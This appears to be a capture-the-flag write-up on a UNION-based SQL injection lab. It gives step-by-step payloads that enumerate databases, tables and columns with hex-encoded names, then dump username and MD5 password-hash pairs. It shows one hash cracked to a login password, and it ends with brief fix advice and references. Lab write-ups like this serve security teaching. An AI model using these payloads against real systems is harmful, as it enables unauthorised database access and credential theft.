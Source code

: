 # SQL injection

## Vulnerability

* List databases (as in `SHOW DATABASES`)
```sql
null union select null,schema_name from information_schema.schemata
```
* List tables in the `Member_Brute_Force` (hex 
`0x4d656d6265725f42727574655f466f726365`) database
```sql
null union select null,table_name from information_schema.tables where
 table_schema=0x4d656d6265725f42727574655f466f726365
```
* List columns in `db_default` table
`db_default` <-> `0x64625f64656661756c74`
```sql
null union select null,column_name from information_schema.columns where table_name=0x64625f64656661756c74
```
* Select `username` and `password` columns in `Member_Brute_Force` table
```sql
null union select username,password from Member_Brute_Force.db_default
```
* See output
```
username: root
password: 3bf1114a986ba87ed28fc1b5884fc2f8

username: admin
password: 3bf1114a986ba87ed28fc1b5884fc2f8
```
* Find corresponding string for this hash https://md5hashing.net/hash/md5
/3bf1114a986ba87ed28fc1b5884fc2f8
* MD5 `3bf1114a986ba87ed28fc1b5884fc2f8` <-> `shadow`
* Sign in with either `admin` or `root` as username and `shadow` as password
* Get the flag

## Attack

A SQL injection attack consists of insertion or “injection” of a SQL query via 
the input data from the client to the application. 

## Fix
* Use prepared Statements (with Parameterized Queries)
* Avoid dynamically construct a SQL query. Don't simply concatenate strings
 including user inputs to construct SQL query
* Validate parameters from the client 

## References
https://portswigger.net/web-security/sql-injection/union-attacks
https://en.wikipedia.org/wiki/Information_schema
https://dev.mysql.com/doc/refman/5.7/en/information-schema-schemata-table.html
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
